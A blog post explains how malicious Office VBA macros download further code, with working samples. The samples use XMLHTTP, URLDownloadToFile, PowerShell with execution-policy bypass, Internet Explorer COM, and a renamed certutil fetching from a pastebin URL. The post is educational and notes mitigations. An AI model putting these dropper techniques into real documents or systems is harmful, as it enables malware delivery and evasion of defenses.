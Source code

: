 ```yaml
---
layout: post
title: Office Docs, The Macro View
categories: [Malware, Macro's, VBA]
excerpt: Attackers often use Office Macros as a means to infect computers and download additional malicious code. In this post I'll explore the ways an attacker can use macros to download more content and we'll walk through some sample code.
---
```

(Estimated Reading Time: 7 minutes)

- [Why Attackers Use Office Macros](#why-attackers-use-office-macros)
- [Approaches To Downloading More Malicious Code](#approaches-to-downloading-more-malicious-code)
- [Resources](#resources)

## Why Attackers Use Office Macros

We all know Office Macro’s can be dangerous and can be used by attackers to download additional malware. In this blog post, I wanted to explorer the basic ways that Macro’s can be used to download additional code by looking at some basic example code.  

Macros have become very popular in malware because they are easy to create and can be crafted into phishing messages to convince the user to run the macro. Despite security warning; the user will almost always click, “Enable Content” 

![MacroWarning](/images/macro_warning.PNG)

Microsoft Word, Excel, Publisher, and Power Point are all office document files that support including Visual Basic Applications (VBA) code as Macros. Microsoft hosts some good documentation here on getting started with [Macros in Office](https://docs.microsoft.com/en-us/office/vba/library-reference/concepts/getting-started-with-vba-in-office 
).  

## Approaches To Downloading More Malicious Code

There are three (maybe four) primary methods to download files using VBA Macros. The first is an XML HTTP Request (XHR), which is a method of fetching website data dynamically. Below is a very simple example of a VBA script to download the famous google logo image as a png and store it in the users home directory in a normally hidden folder, call AppData. An attacker could easily replace the image url here in this example with a malicious executable. 

```
Sub Download_File_XHR()

Dim myURL As String
myURL = "https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png"

Dim HttpReq As Object
Set HttpReq = CreateObject("Microsoft.XMLHTTP")
HttpReq.Open "GET", myURL, False
HttpReq.send

Dim output As String
output = Environ("AppData")

If HttpReq.Status = 200 Then
    Set oStream = CreateObject("ADODB.Stream")
    oStream.Open
    oStream.Type = 1
    oStream.Write HttpReq.responseBody
    oStream.SaveToFile output + "\google_image.png", 2
    oStream.Close
End If

End Sub 
```

The second method involves importing a specific features from a Windows API, and then calling that API. In this case we are importing the function URLDownloadToFile from the urlmon.dll library. This code will have the same effect as above and will download the google logo png to the users AppData folder.

```
Declare PtrSafe Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" _
(ByVal pCaller As Long, ByVal szURL As String, ByVal szFileName As String, _
ByVal dwReserved As Long, ByVal lpfnCB As Long) As Long

Sub Download_File_API()
    Dim myURL As String
    myURL = "https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png"

    Dim output As String
    output = Environ("AppData")
    output = output + "\google_image.png"
    
    Dim returnValue As Long
    returnValue = URLDownloadToFile(0, myURL, output, 0, 0)

End Sub
```

The previous two techniques will generate an outbound network connection from the Office executables which could appear as a red flag to a defender .The third method involves calling out to Powershell and using another program (in this case PowerShell) to download the desired file. Like the two examples above this code has the same end result of downloading the google logo into the AppData folder. In this example however you can clearly see PowerShell pop up and know that another process has been started. Attackers will typically get fancier then this example code and will often Encode parameters to hide URL's. The Windows 10, Attack Surface Reduction rule for [**Block all Office applications from creating child processes**](https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-atp/attack-surface-reduction#block-all-office-applications-from-creating-child-processes) would mitigate the below example as it would prevent Office from launching PowerShell.

```
Sub Download_File_Powershell()
    Dim output As String
    output = Environ("AppData")
    output = output + "\google_image.png"

    Dim psCode As String
    psCode = "invoke-webrequest -Uri 'https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png' -OutFile " + output + " -UseDefaultCredentials"

    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run ("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoExit -executionpolicy bypass -command " + psCode)

End Sub
```

I mentioned a forth method, which could be using Excel 4.0 (XL4) macros. This is a legacy feature of Excel but attackers have figured out how to leverage the feature to Download additional files as well. I'm not going to give an example of this method today but will link to this article where you could [read more about this technique](https://www.lastline.com/labsblog/evolution-of-excel-4-0-macro-weaponization/).

Lastly, just a note of caution, Even though the above code is totally benign and not malicious my AV software decide to protect me from my own non-malicious example code.  When I saved the above samples into an Example.xlsm file Windows Defender saved me from myself. 

![AVProtection](/images/macro_example_triggers_av.PNG)

**Update:** As I was researching this topic further I stumbled upon two more methods to Download files using Macros over at f-secures blog. The two additional methods are fairly interesting. You can use Internet Explorer via COM to download a file. This will spawn a browser from svchost (not Office) to download a file.

```
Set ie = CreateObject("InternetExplorer.Application")
ie.Navigate "https://pastebin.com/raw/tcmMXwMG"
State = 0
Do Until State = 4
DoEvents
State = ie.readyState
Loop
Dim payload: payload = ie.Document.Body.innerHTML
```

and lastly the final method mentioned in f-secure's blog is a trick to use a system binary to download/execute a payload. This approach is really simple using the copyfile function.

```
Set fso = CreateObject("Scripting.FileSystemObject")
fso.copyfile "C:\Windows\System32\certutil.exe", Environ("TEMP") & "\CVR497F.tmp", True
Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
obj.Document.Application.ShellExecute "cmd", "/k cd %temp% && ren CVR497F.tmp CVR497F.com && CVR497F.com -ping https://pastebin.com/raw/tcmMXwMG > CVR31EF.tmp && del CVR497F.com", "", Null, 0
```
So in review we discussed 6 ways to use VBA Macro's to Download a file from the internet;
1. Make an XML HTTP Request (XHR)
2. Calling URLDownloadToFile Lib from urlmon
3. Calling out to PowerShell
4. Using legacy Excel 4.0 (XL4) macros
5. Call Internet Explorer via COM
6. Call a System Binary with copyfile


## Resources
* [Stackoverflow Discussion on Downloading File with VBA](https://stackoverflow.com/questions/17877389/how-do-i-download-a-file-using-vba-without-internet-explorer)
* [Dechaining-macros blog by F-Secure](https://blog.f-secure.com/dechaining-macros-and-evading-edr/)